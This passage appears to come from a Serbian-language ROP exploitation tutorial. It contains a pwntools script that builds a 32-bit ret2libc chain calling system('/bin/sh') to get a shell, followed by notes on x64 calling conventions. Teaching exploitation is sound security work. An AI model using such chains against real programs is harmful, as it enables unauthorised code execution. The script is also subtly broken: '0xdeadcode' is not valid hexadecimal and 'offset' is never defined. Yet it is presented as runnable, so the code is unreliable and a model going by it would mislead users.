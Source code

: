 1. `ret` instrukcijom radi poravnanja (opciono)
2. Adresa funkcije `system` (pretpostavljajući isključen ASLR i poznatu libc, više informacija u [**Ret2lib**](ret2lib/))
3. Rezervisano mesto za adresu povratka iz `system()`
4. Adresa stringa `"/bin/sh"` (parametar za funkciju system)

```python
from pwn import *

# Assuming we have the binary's ELF and its process
binary = context.binary = ELF('your_binary_here')
p = process(binary.path)

# Find the address of the string "/bin/sh" in the binary
bin_sh_addr = next(binary.search(b'/bin/sh\x00'))

# Address of system() function (hypothetical value)
system_addr = 0xdeadcode

# A gadget to control the return address, typically found through analysis
ret_gadget = 0xcafebabe  # This could be any gadget that allows us to control the return address

# Construct the ROP chain
rop_chain = [
ret_gadget,    # This gadget is used to align the stack if necessary, especially to bypass stack alignment issues
system_addr,   # Address of system(). Execution will continue here after the ret gadget
0x41414141,    # Placeholder for system()'s return address. This could be the address of exit() or another safe place.
bin_sh_addr    # Address of "/bin/sh" string goes here, as the argument to system()
]

# Flatten the rop_chain for use
rop_chain = b''.join(p32(addr) for addr in rop_chain)

# Send ROP chain
## offset is the number of bytes required to reach the return address on the stack
payload = fit({offset: rop_chain})
p.sendline(payload)
p.interactive()
```

## Primer ROP lanac u x64

### **x64 (64-bit) Konvencije pozivanja**

* Koristi **System V AMD64 ABI** konvenciju pozivanja na sistemima sličnim Unix-u, gde se **prva šest celobrojnih ili pokazivačkih argumenata prosleđuje u registre `RDI`, `RSI`, `RDX`, `RCX`, `R8`, i `R9`**. Dodatni argumenti se prosleđuju na steku. Povratna vrednost se smešta u `RAX`.
* **Windows x64** konvencija pozivanja koristi `RCX`, `RDX`, `R8`, i `R9` za prva četiri celobrojna ili pokazivačka argumenta, sa dodatnim argumentima prosleđenim na steku. Povratna vrednost se smešta u `RAX`.
* **Registri**: 64-bitni registri uključuju `RAX`, `RBX`, `RCX`, `RDX`, `RSI`, `RDI`, `RBP`, `RSP`, i `R8` do `R15`.
